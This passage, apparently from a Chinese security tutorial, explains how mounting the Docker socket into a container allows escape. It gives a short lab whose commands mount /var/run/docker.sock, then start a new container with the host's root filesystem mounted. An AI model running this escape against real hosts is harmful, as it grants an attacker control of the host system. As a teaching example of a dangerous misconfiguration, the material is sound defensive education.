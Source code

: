 ❏  危险挂载导致容器逃逸。Docker Socket 是 Docker 守护进程监听的 Unix 域套接字，用来与守护进程通信——查询信息或下发命令。如果在攻击者可控的容器内挂载了该套接字文件（/var/run/docker.sock），容器逃逸就相当容易了，除非有进一步的权限限制。

<img src="./BPF-10.jpg">

下面通过一个小实验来展示这种逃逸可能性：

1.准备dockertest镜像，该镜像是基于ubuntu镜像安装docker，通过docker commit生成

2.创建一个容器并挂载/var/run/docker.sock

docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock dockertest

3.接着使用该客户端通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部；

docker exec -it <CONTAINER_ID> /bin/bash

docker ps

docker run -it -v /:/host dockertest /bin/bash
